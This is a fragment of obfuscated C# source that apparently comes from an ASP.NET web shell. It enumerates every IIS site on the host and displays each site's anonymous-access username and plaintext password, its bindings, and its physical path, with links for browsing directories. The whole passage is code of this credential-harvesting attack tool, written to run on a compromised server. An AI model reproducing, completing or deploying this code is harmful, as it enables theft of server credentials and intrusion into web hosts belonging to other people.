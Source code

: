string mWGEm="IIS://localhost/W3SVC";
GlI.Style.Add("word-break","break-all");
try
{
DirectoryEntry HHzcY=new DirectoryEntry(mWGEm);
int fmW=0;
foreach(DirectoryEntry child in HHzcY.Children)
{
if(SGde(child.Name.ToString()))
{
fmW++;
DirectoryEntry newdir=new DirectoryEntry(mWGEm+"/"+child.Name.ToString());
DirectoryEntry HlyU=newdir.Children.Find("root","IIsWebVirtualDir");
string bg=OKM();
TableRow TR=new TableRow();
TR.Attributes["onmouseover"]="this.className='focus';";
TR.CssClass=bg;
TR.Attributes["onmouseout"]="this.className='"+bg+"';";
TR.Attributes["title"]="Site:"+child.Properties["ServerComment"].Value.ToString();
for(int i=1;i&lt;6;i++)
{
try
{
TableCell tfit=new TableCell();
switch(i)
{case 1:
tfit.Text=fmW.ToString();
break;
case 2:
tfit.Text=HlyU.Properties["AnonymousUserName"].Value.ToString();
break;
case 3:
tfit.Text=HlyU.Properties["AnonymousUserPass"].Value.ToString();
break;
case 4:
StringBuilder sb=new StringBuilder();
PropertyValueCollection pc=child.Properties["ServerBindings"];
for (int j=0; j &lt; pc.Count; j++)
{
sb.Append(pc[j].ToString()+"&lt;br&gt;");
}
tfit.Text=sb.ToString().Substring(0,sb.ToString().Length-4);
break;
case 5:
tfit.Text="&lt;a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(HlyU.Properties["Path"].Value.ToString())+"')\"&gt;"+HlyU.Properties["Path"].Value.ToString()+"&lt;/a&gt;";
break;
}
TR.Cells.Add(tfit);
}
catch (Exception ex)
{
xseuB(ex.Message);
continue;
}
}
GlI.Controls.Add(TR);
}
}
}
catch(Exception ex)
{
xseuB(ex.Message);
}